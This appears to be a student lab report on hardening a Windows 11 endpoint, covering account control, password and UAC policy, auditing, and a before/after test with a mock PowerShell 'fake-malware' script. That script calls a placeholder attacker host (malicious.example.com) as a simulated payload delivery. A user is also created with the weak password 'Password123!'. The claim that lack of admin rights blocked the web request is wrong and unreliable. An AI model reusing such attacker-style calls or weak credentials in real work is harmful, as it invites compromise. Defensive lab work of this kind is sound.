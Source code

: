 # Hardening Report — Windows 11 Endpoint

This report documents the technical steps taken to harden a default Windows 11 Pro system in a virtual lab. Actions were selected to improve local account control, enforce least privilege, implement basic password policy hygiene, and simulate real-world defense-in-depth principles. Each step includes rationale, implementation, and verification details.

---

## Before vs. After Summary

| Category              | Before                         | After                          |
|-----------------------|--------------------------------|--------------------------------|
| Guest Account         | Enabled                        | Disabled                       |
| Admin Account Name    | `Administrator`                | `svc_sysmgr`                   |
| Daily User Privilege  | Admin                          | Standard (non-admin)           |
| Password Complexity   | Disabled                       | Enabled                        |
| Password Min Length   | 8                              | 12                             |
| UAC Settings          | “Never Notify”                 | “Always Notify”                |
| Audit Policy          | Not configured                 | Enabled for logon, privilege use, object access |
| PowerShell Execution  | Unrestricted as admin          | Blocked or UAC-protected       |

---

## Account Control

### Renamed Default Administrator Account
- **Why:** Obfuscates a high-value target account frequently exploited by attackers
- **Command:**
  ```powershell
  Rename-LocalUser -Name "Administrator" -NewName "svc_sysmgr"
  ```
- **Verification:**  
  ```powershell
  net user
  ```  
   ![Admin Rename](./images/admin_rename.png)

---

### Disabled Guest Account
- **Why:** Prevents unauthenticated logons via built-in low-privilege account
- **Command:**
  ```powershell
  Disable-LocalUser -Name "Guest"
  ```
- **Verification:**
  ```powershell
  net user Guest
  ```  
  Look for `Account active: No`  

 ![Disable Guest](./images/disable_guest.png)

---

### Created Standard User Account
- **Why:** Enforces least privilege for daily tasks
- **Commands:**
  ```powershell
  net user TestUser Password123! /add
  net localgroup Users TestUser /add
  net localgroup Administrators TestUser /delete
  ```
- **Verification:** Group membership before/after  

 ![Users Group](./images/users_group.png)
---

## Password Policy

### Enforced Strong Password Requirements
- **Min length:** `12`
- **Complexity:** Enabled (uppercase, lowercase, number, symbol)
- **Password history:** 12 remembered
- **Min age:** 1 day
- **Max age:** left at default (42 days)
- **How:**  
  `gpedit.msc → Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy`  
- 📸 `images/password_policy_after.png`

---

### Enabled Password Length Auditing
- **What:** Set `Minimum password length audit` to `16`
- **Why:** Allows auditing before enforcing stricter policy
- included with password policy screenshot

---

### Disabled Insecure Options
- **Reversible encryption:** Disabled  
- **Relax minimum length enforcement:** Disabled  

---

## User Account Control (UAC)

### Raised UAC Settings
- **Change:** “Never notify” → “Always notify”
- **Why:** Ensures elevation prompts appear for all privileged actions
- **How:**  
  `Control Panel → User Accounts → Change User Account Control settings`
- `images/uac_before.png`, `images/uac_after.png`

---

## Audit Policy Configuration

### Enabled Basic Security Auditing
- **Enabled policies:**
  - `Audit logon events`
  - `Audit privilege use`
  - `Audit process tracking`
  - `Audit object access`
- **Why:** Provides visibility into login behavior, permission use, and program execution
- **How:**  
  `gpedit.msc → Security Settings → Local Policies → Audit Policy`
- `images/audit_policy_configured.png`

---

## Simulated Payload Test (Before vs. After)

### Purpose
To demonstrate the impact of user privilege and UAC on potentially malicious PowerShell execution, simulating initial access tactics commonly seen in real-world attacks.

### Method
Created a harmless but suspicious PowerShell script:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```

### Before Hardening
- Executed as built-in Admin user
- Ran silently, made outbound request without prompt
- `images/fake_payload_admin_exec.png`

### 🛡️ After Hardening
- Ran as standard user with UAC enforced
- Blocked or triggered elevation prompt
- Prevented web request due to lack of admin rights
- `images/fake_payload_blocked_standard_user.png`

### ATT&CK Mapping:
- `T1059` – Command and Scripting Interpreter  
- `T1204` – User Execution

---

## Framework Alignment

This hardening configuration aligns with:
- **CIS Microsoft Windows 11 Benchmark – Level 1**
- **NIST 800-53 Rev 5** control families:
  - `AC-2` (Account Management)  
  - `AC-6` (Least Privilege)  
  - `AU-2` (Audit Events)  
  - `IA-5` (Authenticator Management)

---

## Conclusion

This lab simulates common endpoint hardening tasks in a Windows 11 Pro environment, executed without domain infrastructure. Though foundational, these controls form the baseline for defense-in-depth strategies and reflect real-world configurations used in help desk, desktop support, and SOC environments.

This project demonstrates practical experience with:
- PowerShell administration
- Group Policy configuration
- Privilege management
- UAC tuning
- Scripted security testing
- Technical documentation
